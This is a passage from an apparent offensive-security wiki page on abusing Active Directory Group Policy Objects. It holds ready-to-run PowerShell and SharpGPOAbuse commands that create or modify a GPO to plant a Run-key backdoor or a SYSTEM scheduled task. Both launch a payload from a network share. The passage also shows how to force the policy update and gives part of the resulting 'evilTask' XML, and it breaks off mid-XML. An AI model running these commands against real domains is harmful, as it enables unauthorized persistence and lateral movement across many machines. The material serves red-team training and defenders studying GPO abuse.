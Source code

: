 
```powershell
# Create new GPO and link it with the OU Workstrations
New-GPO -Name "Evil GPO" | New-GPLink -Target "OU=Workstations,DC=dev,DC=domain,DC=io"
# Make the computers inside Workstrations create a new reg key that will execute a backdoor
## Search a shared folder where you can write and all the computers affected can read
Set-GPPrefRegistryValue -Name "Evil GPO" -Context Computer -Action Create -Key "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" -ValueName "Updater" -Value "%COMSPEC% /b /c start /b /min \\dc-2\software\pivot.exe" -Type ExpandString
```

This payload, after the GPO is updated, will need also someone to login inside the computer.

### [**SharpGPOAbuse**](https://github.com/FSecureLABS/SharpGPOAbuse) **- Abuse GPO**


It cannot create GPOs, so we must still do that with RSAT or modify one we already have write access to.


```bash
.\SharpGPOAbuse.exe --AddComputerTask --TaskName "Install Updates" --Author NT AUTHORITY\SYSTEM --Command "cmd.exe" --Arguments "/c \\dc-2\software\pivot.exe" --GPOName "PowerShell Logging"
```

### Force Policy Update <a href="#force-policy-update" id="force-policy-update"></a>

The previous abusive **GPO updates are reloaded** roughly each 90 minutes.\
if you have access to the computer you can force it with `gpupdate /force` .

### Under the hood <a href="#under-the-hood" id="under-the-hood"></a>

If we observe the Scheduled Tasks of the `Misconfigured Policy` GPO, we can see our `evilTask` sitting there:

![](../../../.gitbook/assets/a22.png)

Below is the XML file that got created by `New-GPOImmediateTask` that represents our evil scheduled task in the GPO:

{% code title="\offense.local\SysVol\offense.local\Policies\{DDC640FF-634A-4442-BC2E-C05EED132F0C}\Machine\Preferences\ScheduledTasks\ScheduledTasks.xml" %}
```markup
<?xml version="1.0" encoding="utf-8"?>
<ScheduledTasks clsid="{CC63F200-7309-4ba0-B154-A71CD118DBCC}">
    <ImmediateTaskV2 clsid="{9756B581-76EC-4169-9AFC-0CA8D43ADB5F}" name="evilTask" image="0" changed="2018-11-20 13:43:43" uid="{6cc57eac-b758-4c52-825d-e21480bbb47f}" userContext="0" removePolicy="0">
        <Properties action="C" name="evilTask" runAs="NT AUTHORITY\System" logonType="S4U">
            <Task version="1.3">
                <RegistrationInfo>
                    <Author>NT AUTHORITY\System</Author>
                    <Description></Description>
                </RegistrationInfo>
                <Principals>
                    <Principal id="Author">
                        <UserId>NT AUTHORITY\System</UserId>
                        <RunLevel>HighestAvailable</RunLevel>
                        <LogonType>S4U</LogonType>
                    </Principal>
                </Principals>
                <Settings>
                    <IdleSettings>
                        <Duration>PT10M</Duration>
                        <WaitTimeout>PT1H</WaitTimeout>
```